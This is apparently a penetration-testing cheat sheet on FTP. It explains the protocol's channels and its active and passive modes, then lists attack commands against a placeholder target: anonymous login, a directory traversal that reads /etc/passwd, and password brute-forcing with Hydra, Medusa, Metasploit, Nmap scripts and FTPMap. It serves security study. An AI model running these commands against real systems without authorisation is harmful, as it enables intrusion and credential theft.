 ```yaml
---
tags:
  - Penetration-Testing
  - Services
---
```

## What is FTP?
Protocol used to allow remote transfer of files over a network.
- Operates using two channels: **command channel** & **data channel**
	- Command Channel is used to transmit commands as well as command replies.
	- Data Channel is used to transfer data.
- Separation of command & data into separate channels allows commands to be sent to the server w/o having to wait on data transfers.

**Active vs Passive FTP Connection**
- Active FTP = **client** opens port and listens, server is **required** to actively connect to the port.
- Passive FTP = **server** opens a port and listens passively, client connects to it.

## Enumerating FTP
**Ensure FTP client is installed on attacker system**
- Type ftp, if ftp> appears, client is on the box.

**Begin with [[Penetration Testing/Nmap|Nmap]]

## Exploiting FTP

### Anonymous Login
```bash
ftp target_ip
Name (target_ip:anonymous): anonymous
Password: [press Enter]
```

### Directory Traversal
- Exploit input validation to access directories outside FTP root
```bash
ftp> get ../../../etc/passwd
```

### Brute Force
- Hydra
```bash
hydra -l username -P passwordlist.txt ftp://target_ip
```

- Medusa
```bash
medusa -h target_ip -u username -P passwordlist.txt -M ftp
```

- Metasploit
```bash
use auxiliary/scanner/ftp/ftp_login
```

- Nmap Scripts
```bash
nmap --script ftp-brute -p 21 target_ip

nmap --script ftp-vsftpd-backdoor -p 21 target_ip
```

- FTPMap
```bash
ftpmap -v -u username -p passwordlist.txt target_ip
```
